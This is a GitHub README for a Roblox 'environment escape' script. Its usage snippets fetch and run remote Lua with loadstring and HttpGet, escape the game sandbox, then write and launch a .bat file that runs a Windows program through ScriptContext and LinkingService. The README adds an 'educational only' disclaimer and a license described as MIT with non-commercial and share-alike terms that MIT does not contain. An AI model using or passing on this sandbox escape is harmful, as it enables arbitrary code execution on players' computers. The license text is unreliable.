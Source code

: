 # Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made only to bypass `game` that are protected from vulnerabilities like `ScriptContext:SaveScriptProfilingData`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_game = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
``Lua
local bypassed_game, why = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if bypassed_game ~= "Failed" and bypassed_game ~= "UnSupported" then
	local L, S = bypassed_game:GetService("LinkingService"), bypassed_game:GetService("ScriptContext")
	L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why ~= nil then
	print(why)
else
    print(bypassed_game)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).
